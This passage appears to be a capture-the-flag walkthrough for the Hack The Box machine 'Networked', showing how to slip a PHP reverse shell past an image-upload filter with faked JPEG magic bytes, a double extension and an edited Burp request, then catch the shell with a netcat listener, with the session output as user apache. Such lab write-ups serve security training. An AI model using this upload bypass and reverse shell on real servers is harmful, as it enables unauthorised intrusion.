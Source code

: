 1. Get a reverse shell from [revshell.com](https://www.revshells.com/) (I use PHP PentestMonkey's) and save it as `shell.php.jpg`.

2. Add 4 spaces at the start of the file. Insert the file signatures of `jpg` (`FF D8 FF E0`) using `hexeditor`. *Referenced [here](https://en.wikipedia.org/wiki/List_of_file_signatures)*
```console
$ hexeditor shell.php
```
After that you can verify the file type of it using:
```console
$ file shell.php

shell.php: JPEG image data
```

3. Fire up **BurpSuite** with ``intercept on``, upload the file at `/upload.php`. 

In the intercepted request, change `filename` to `shell.php.jpg` & `content-type` to `image/jpeg`. Then forward the request.

You should see the following response:
```html
<p>file uploaded, refresh gallery</p>
```

The files uploaded are at `/uploads`, but directory listing is not enabled, so we have to trigger the payload manually.

We can see the filenames of the uploads folder at `photos.php`. It seems that our uploaded file is called `10_10_14_10.php.jpg`.

Let's setup our netcat reverse shell:
```console
$ nc -lnvp 9999
listening on [any] 9999 ...
```

On the browser, navigate to `/uploads/10_10_14_10.php.jpg`.

Boom, we got a connection back:
```console
$ nc -lnvp 9999
listening on [any] 9999 ...                                                                  
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.146] 58724                                 
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:24:10 up  1:35,  0 users,  load average: 0.00, 0.01, 0.05                                
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                          
uid=48(apache) gid=48(apache) groups=48(apache)                                              
sh: no job control in this shell                                                             
sh-4.2$ whoami                                                                               
whoami                                                                                       
apache
```

### We are in as `apache@networked.htb`!
